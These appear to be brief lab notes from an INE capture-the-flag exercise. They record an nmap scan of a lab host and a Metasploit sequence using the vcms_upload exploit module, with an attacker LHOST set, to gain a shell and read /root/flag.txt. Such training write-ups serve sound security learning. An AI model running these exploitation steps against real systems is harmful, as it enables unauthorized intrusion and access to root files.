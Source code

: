 ```yaml
---
title: Part 1
updated: 2022-02-14 08:04:05Z
created: 2022-02-13 15:59:25Z
latitude: 45.12540000
longitude: 25.73340000
altitude: 0.0000
---
```


- nmap -A demo.ine.local
- msfconsole -q

use exploit/linux/http/vcms_upload
show options
set RHOSTS demo.ine.local
set TARGETURI /
set LHOST 192.62.135.2
check
exploit
getuid

ls /root
cat /root/flag.txt

